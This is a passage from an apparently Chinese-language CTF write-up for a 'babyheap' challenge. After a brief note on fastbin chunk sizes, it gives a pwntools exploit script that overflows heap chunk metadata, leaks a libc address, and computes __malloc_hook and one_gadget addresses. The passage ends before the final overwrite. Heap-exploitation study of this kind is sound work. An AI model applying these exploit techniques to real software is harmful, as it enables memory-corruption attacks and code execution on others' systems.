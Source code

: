 chunk1 在 fastbin 处于 0x20 ，所以需要将 chunk4 size 修改为 0x20 。

泄露 libc 地址之后，后面利用差不多是一样的。

### EXP

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
p = process("./babyheap")
elf = ELF("./babyheap")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def create(size):
	p.recvuntil("Command: ")
	p.sendline('1')
	p.recvuntil("Size: ")
	p.sendline(str(size))
def write(index,size,content):
	p.recvuntil("Command: ")
	p.sendline('2')
	p.recvuntil("Index: ")
	p.sendline(str(index))
	p.recvuntil("Size: ")
	p.sendline(str(size))
	p.recvuntil("Content: ")
	p.send(content)
def free(index):
	p.recvuntil("Command: ")
	p.sendline('3')
	p.recvuntil("Index: ")
	p.sendline(str(index))
def dump(index):
	p.recvuntil("Command: ")
	p.sendline("4")
	p.recvuntil("Index: ")
	p.sendline(str(index))


# ex
create(0x80)#0
create(0x10)#1
create(0x80)#2
create(0x10)#3

free(0)
payload = 'a'*0x10 + p64(0xb0) + p64(0x90)
write(1,len(payload),payload)
free(2)

create(0x80)
dump(1)
p.recvuntil("Content: \n")
leak_addr = u64(p.recv(6).ljust(8,'\x00'))
log.info("leak_addr:"+hex(leak_addr))

libc_base = leak_addr-0x3c4b78
malloc_hook = libc_base + libc.sym['__malloc_hook']
one = [0x45226,0x4527a,0xf0364,0xf1207]
onegadget = one[1] + libc_base
log.info("libc_base:"+hex(libc_base))
log.info("malloc_hook:"+hex(malloc_hook))
log.info("onegadget:"+hex(onegadget))

```